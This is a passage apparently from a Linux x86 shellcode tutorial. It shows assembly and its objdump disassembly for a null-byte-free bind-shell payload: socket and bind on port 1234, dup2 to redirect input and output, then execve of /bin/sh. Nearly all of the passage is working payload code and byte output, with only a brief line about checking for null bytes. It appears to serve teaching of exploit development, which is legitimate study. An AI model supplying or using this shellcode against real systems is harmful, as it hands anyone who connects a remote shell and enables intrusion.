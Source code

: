 ```  
inc ecx  
int 0x80  
  
xor eax, eax  
mov al, 63  
mov ebx, edx  
xor ecx, ecx  
int 0x80  
  
;execve  
xor eax, eax  
mov al, 11  
  
; push /bin/sh to the stack  
; much more common than /bin/bash  
; e.g. containerisation solutions  
xor ebx, ebx  
push ebx ; \x00\x00\x00\x00  
push 0x68732f6e ; n/sh  
push 0x69622f2f ; //bi  
mov ebx, esp  
xor ecx, ecx  
xor edx, edx  
int 0x80  
```  
 
To confirm the shellcode is free of nullbytes, we `objdump` the binary and get the disassembly as well as the bytes:
```  
ex1: file format elf32-i386  
  
  
Disassembly of section .text:  
  
08048060 <_start>:  
8048060: 31 c0 xor %eax,%eax  
8048062: 31 db xor %ebx,%ebx  
8048064: b0 66 mov $0x66,%al  
8048066: b3 01 mov $0x1,%bl  
8048068: 31 c9 xor %ecx,%ecx  
804806a: 51 push %ecx  
804806b: 6a 01 push $0x1  
804806d: 6a 02 push $0x2  
804806f: 89 e1 mov %esp,%ecx  
8048071: cd 80 int $0x80  
8048073: 89 c2 mov %eax,%edx  
8048075: 31 c0 xor %eax,%eax  
8048077: 31 db xor %ebx,%ebx  
8048079: b0 66 mov $0x66,%al  
804807b: b3 02 mov $0x2,%bl  
804807d: 31 c9 xor %ecx,%ecx  
804807f: 51 push %ecx  
8048080: 66 68 04 d2 pushw $0xd204  
8048084: 66 6a 02 pushw $0x2  
8048087: 89 e1 mov %esp,%ecx  
8048089: 6a 10 push $0x10  
804808b: 51 push %ecx  
804808c: 52 push %edx  
804808d: 89 e1 mov %esp,%ecx  
804808f: cd 80 int $0x80  
8048091: 31 c0 xor %eax,%eax  
8048093: 50 push %eax  
8048094: 52 push %edx  
8048095: b0 66 mov $0x66,%al  
```